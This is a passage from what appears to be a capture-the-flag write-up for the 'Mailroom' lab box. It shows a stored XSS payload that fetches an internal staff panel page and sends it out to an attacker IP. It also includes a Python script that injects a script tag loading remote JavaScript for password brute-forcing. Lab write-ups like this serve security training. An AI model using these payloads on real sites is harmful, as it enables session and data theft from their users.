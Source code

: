 We just have to URL encode this entire thing and submit it as part of a POST request.

{% code overflow="wrap" %}
```http
POST /contact.php HTTP/1.1
Host: mailroom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 610
Origin: http://mailroom.htb
Connection: close
Referer: http://mailroom.htb/contact.php
Upgrade-Insecure-Requests: 1



email=user%40user.com&title=%3Cscript%3Evar%20url%20%3D%20%22http%3A%2F%2Fstaff-review-panel.mailroom.htb%2Findex.php%22%3B%0Avar%20attacker%20%3D%20%22http%3A%2F%2F10.10.16.31%2Fout%22%3B%0Avar%20xhr%20%20%3D%20new%20XMLHttpRequest%28%29%3B%0Axhr.onreadystatechange%20%3D%20function%28%29%20%7B%0A%20%20%20%20if%20%28xhr.readyState%20%3D%3D%20XMLHttpRequest.DONE%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28attacker%20%2B%20%22%3F%22%20%2B%20encodeURI%28btoa%28xhr.responseText%29%29%29%0A%20%20%20%20%7D%0A%7D%0Axhr.open%28%27GET%27%2C%20url%2C%20true%29%3B%0Axhr.send%28null%29%3B%3C%2Fscript%3E&message=test
```
{% endcode %}

Then, we would receive a callback with the page contents:

<figure><img src="../../.gitbook/assets/image (3064).png" alt=""><figcaption></figcaption></figure>

We have successfully stole the page, and now we can exploit this by stealing the token via NoSQL injection as found earlier. Based on this, we can attempt to send requests to `auth.php` and possibly brute force the password for a user.&#x20;

Since we can use XSS, we can make the webpage process Javascript that is hosted on our HTTP server. First, I created a quick script to send the XSS payload and retrieve the inquiries URL that we need to visit to trigger the payload.

```python
import requests
import re
contact = 'http://10.129.61.14/contact.php'
data = 'email=test@test.com&title=test&message=%3Cscript%20src%3D%22http%3A%2F%2F10.10.16.31%2Fbrute.js%22%3C%2Fscript%3E'
headers = {
	"Content-Type":"application/x-www-form-urlencoded",
}
r = requests.post(contact, data=data, headers=headers)
inquiry = r'href=\"./inquiries/[a-z0-9]{32}.html'
inquiry = str(re.search(inquiry, r.text))
inquiry = str(inquiry.split('"')[1])
inquiry = inquiry[:-1]
inquiry = inquiry[1:]
```
